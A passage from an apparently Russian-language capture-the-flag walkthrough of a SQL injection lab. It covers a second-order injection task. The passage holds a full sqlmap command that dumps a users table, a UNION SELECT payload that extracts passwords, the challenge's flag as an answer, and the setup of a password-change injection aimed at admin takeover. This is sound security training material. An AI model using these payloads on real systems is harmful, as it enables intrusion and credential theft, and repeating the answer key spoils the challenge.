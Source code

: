 Когда sqlmap спросит, ответьте нет, чтобы следовать 302 перенаправлениям, затем ответьте да, чтобы продолжить 
дальнейшее тестирование, если он обнаружит некоторые WAF/ IPS . Ответьте нет, когда вас спросят, хотите ли вы 
объединить куки в будущих запросах, и скажите нет, чтобы уменьшить количество запросов. Как видно на изображении 
ниже, sqlmap смог найти уязвимость, что позволяет нам автоматизировать ее эксплуатацию.   



Затем флаг можно найти, выгрузив таблицу пользователей:

```commandline
sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username --dbms=sqlite --technique=U --no-cast -T users --dump
```
Sqlmap довольно шумный и добавит много пользователей, пытающихся эксплуатировать это приложение. Из-за этого вывод будет обрезан, и можно будет увидеть сообщение ниже.

[ ВНИМАНИЕ ]  вывод консоли будет обрезан до последних  256  строк из-за большого размера таблицы
Однако все данные сохраняются и записываются в файл дампа, как показано на рисунке ниже. Прочитайте верхнюю часть файла дампа, чтобы получить флаг:



Примечание: в рабочей системе флаг будет другим.

Задача
Воспользуйтесь уязвимой функцией и получите флаг.

### Ответить на вопросы ниже
```commandline
# task 7
http://10.10.255.151:5000/challenge4/login
profileID: '  union select 1,group_concat(password) from users'
password: asd
http://10.10.255.151:5000/challenge4/signup
'  union select 1,group_concat(password) from users'
asd
http://10.10.255.151:5000/challenge4/notes
THM{4644c7e157fd5498e7e4026c89650814}
```
Какой флаг у этого испытания?
```commandline
THM{4644c7e157fd5498e7e4026c89650814}
```

## Задание 8
### Цель
Для этого испытания уязвимость на странице заметок была исправлена. В приложение была добавлена новая функция 
смены пароля, поэтому пользователи теперь могут менять свой пароль, перейдя на страницу профиля. Новая функция 
уязвима для SQL-инъекции, поскольку оператор UPDATE объединяет имя пользователя непосредственно в SQL-запрос, как 
можно увидеть ниже. Цель здесь — эксплуатировать уязвимую функцию для получения доступа к учетной записи администратора.   

